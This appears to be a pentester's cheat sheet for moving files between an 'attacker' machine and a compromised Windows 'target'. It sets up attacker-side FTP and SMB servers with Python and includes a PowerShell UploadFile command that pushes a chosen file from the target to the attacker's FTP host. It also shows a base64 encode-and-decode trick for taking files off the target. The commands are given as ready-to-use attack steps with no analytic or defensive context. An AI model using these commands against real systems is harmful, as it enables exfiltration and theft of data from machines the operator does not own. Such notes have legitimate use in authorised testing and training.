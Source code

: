 # upload files

## Windows - Uploads commands

### Upload a file - FTP

launch on the attacker a ftp server using python

```bash
sudo python3 -m pyftpdlib --port 21 --write
```

then on the target you can transfer whatever you want

```
(New-Object Net.WebClient).UploadFile('ftp://$monIp/ftp-hosts', '$cheminFichier')
```

### Upload a file - SMB

launch on the attacker a smb server using python

```bash
python3 smbserver.py -smb2support MYSHARE /path/to/shared/directory
```

then on the target

```
xcopy \server\MYSHARE\file.txt C:\path\to\local\directory\
```

### Transfer file from target to attacker

encode in b64 on the target

```
[Convert]::ToBase64String((Get-Content -path "$fichier" -Encoding byte))
```

then on the attacker

```bash
echo $base64 | base64 -d > $fichier
```